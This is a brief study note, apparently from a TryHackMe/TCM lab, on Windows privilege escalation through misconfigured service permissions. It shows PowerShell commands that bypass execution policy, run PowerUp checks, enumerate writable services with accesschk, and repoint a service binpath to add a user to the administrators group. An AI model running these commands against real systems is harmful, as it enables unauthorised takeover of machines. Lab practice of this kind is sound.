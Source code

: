Follow the TCM THM Box

Basically, its exploiting a service inside of the windows machine and doing it in such a way that you end up being the administrator of the machine. This method involves you to check which service has a read and write permission to its binary path and then change that binary path to:

```powershell
sc config <name of service> binpath = "net localgroup administrators user/add"
```

To check whether the machine has this or not, you can run the following commands:

```powershell
powershell -ep bypass
.\PowerUp.ps1
Invoke-AllChecks
```

While that is running, you can use this:

```powershell
cd Desktop\Tools\Accesschk
accesschk64.exe -uwcv Everyone *
```

Once you find the service that can be exploited, you can use accesschk64.exe on the service itself using the same parameters. And that will give you more information.

